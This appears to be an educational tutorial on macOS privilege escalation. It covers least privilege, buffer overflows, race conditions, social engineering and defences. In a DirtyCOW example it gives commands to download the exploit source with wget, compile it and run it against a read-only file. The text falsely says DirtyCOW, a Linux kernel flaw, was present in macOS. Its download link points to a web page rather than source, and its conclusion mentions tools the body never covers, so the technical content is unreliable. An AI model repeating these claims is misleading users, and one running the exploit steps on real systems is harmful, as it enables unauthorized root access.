 # macOS Security & Privilege Escalation


# 👉 Overview

---

### 👀 What ?

> macOS Security & Privilege Escalation refers to the methods and mechanisms by which a user or a process in a macOS system can gain higher access rights, or 'privileges', than those initially granted. This can be used both legitimately by system administrators to perform necessary tasks, and maliciously by attackers to compromise the system.
> 

### 🧐 Why ?

> Understanding macOS Security & Privilege Escalation is important because macOS systems are widely used in both personal and business settings. System administrators need to understand how to escalate privileges to perform their jobs effectively, while security professionals need to understand how these mechanisms can be exploited in order to protect against them. For general users, understanding these concepts can help them maintain their system's security and respond effectively if they suspect a security breach.
> 

### ⛏️ How ?

> To use macOS Security & Privilege Escalation to your advantage, you first need to understand the various user roles and privilege levels in a macOS system. The highest level of access is 'root', which has complete control over the system. To escalate privileges, you can use methods such as exploiting system vulnerabilities, manipulating user permissions, or using social engineering techniques. However, these methods should be used responsibly and ethically, and only with proper authorization.
> 

### ⏳ When ?

> Privilege escalation has been a concept in computer security since the earliest days of multi-user systems, and it is a feature in all modern operating systems, including macOS. As security measures have become more sophisticated, so too have the methods for bypassing them.
> 

# ⚙️ Technical Explanations

---

### Overview

The principle of least privilege is foundational to effective information security. It dictates that users and processes should be granted the minimal level of access necessary to perform their functions. This principle helps minimize potential damage if a system is compromised.

In macOS, this means ensuring users and applications operate with only the permissions they need. Limiting privileges reduces the risk of unauthorized access or the exploitation of vulnerabilities to gain elevated privileges.

### Understanding Privilege Escalation

Privilege escalation involves gaining higher levels of access than initially granted. On macOS, the highest privilege level is 'root', which provides complete control over the system. Attackers often target privilege escalation to gain root access.

There are two primary methods for privilege escalation:

1. **Exploiting System Vulnerabilities**: These can include bugs in the operating system or installed software. One common example is a buffer overflow vulnerability. A buffer overflow occurs when a program writes more data to a buffer than it can hold, potentially leading to the execution of arbitrary code with elevated privileges.
2. **Manipulating User Permissions**: This often involves social engineering, such as phishing, where users are tricked into revealing their passwords or other sensitive information.

### Types of System Vulnerabilities

- **Buffer Overflows**: These occur when a program writes more data to a buffer than it can handle. This can lead to crashes, arbitrary code execution, or altered program execution.
- **Race Conditions**: These occur when the system's behavior depends on the sequence or timing of uncontrollable events. An attacker can exploit race conditions to execute code inappropriately.
- **Misconfigurations**: These include improper permission settings that can be exploited to gain unauthorized access.

### Social Engineering Tactics

- **Phishing**: Tricking users into providing sensitive information by masquerading as a trusted entity.
- **Spear Phishing**: Targeted phishing attacks aimed at specific individuals or organizations.
- **Pretexting**: Creating a fabricated scenario to steal personal information.
- **Baiting**: Offering something enticing to get users to reveal sensitive information.

### Defending Against Privilege Escalation

- **Regular Updates**: Keep all systems and software up to date with the latest patches and security updates.
- **Strong Passwords**: Use strong, unique passwords and change them regularly.
- **User Education**: Educate users about the risks of phishing and other social engineering attacks.
- **Access Controls**: Implement strict access controls and monitor for unauthorized access attempts.

### Real-World Example: DirtyCOW (CVE-2016-5195)

DirtyCOW is a well-known privilege escalation vulnerability in the Linux kernel, which was also present in macOS. It exploits a race condition in the Copy-On-Write (COW) mechanism to gain write access to read-only memory mappings.

### Exploitation Steps:

1. **Login as a Normal User**: The attacker logs into the macOS system with normal user privileges.
    
    ```bash
    login: user
    password: ****
    
    ```
    
2. **Download and Compile the Exploit**: The attacker downloads and compiles the DirtyCOW exploit code.
    
    ```bash
    wget <https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c>
    gcc -pthread dirtyc0w.c -o dirtyc0w
    
    ```
    
3. **Run the Exploit**: The attacker runs the exploit on a read-only file. Due to the vulnerability, the exploit modifies the file.
    
    ```bash
    ./dirtyc0w target_file.txt "malicious_content"
    
    ```
    
4. **Escalate Privileges**: The attacker now has elevated privileges and can modify system files or perform unauthorized actions.

### Mitigation:

- **Patch Systems**: Ensure systems are updated with patches that fix vulnerabilities like DirtyCOW.
- **Limit Untrusted Code Execution**: Avoid running untrusted code, which could exploit vulnerabilities.
- **Monitor System Activity**: Use monitoring tools to detect unusual activity that could indicate an exploit attempt.

### Conclusion

Understanding macOS security and privilege escalation is crucial for both system administrators and cybersecurity professionals. By adhering to the principle of least privilege, keeping systems updated, using strong passwords, educating users, and implementing robust access controls, the risk of privilege escalation can be significantly reduced. While tools and techniques like memory dumping and `lldb` debugger facilitate deep system analysis, they must be used responsibly to maintain system security and integrity.

# 🖇️ Références

---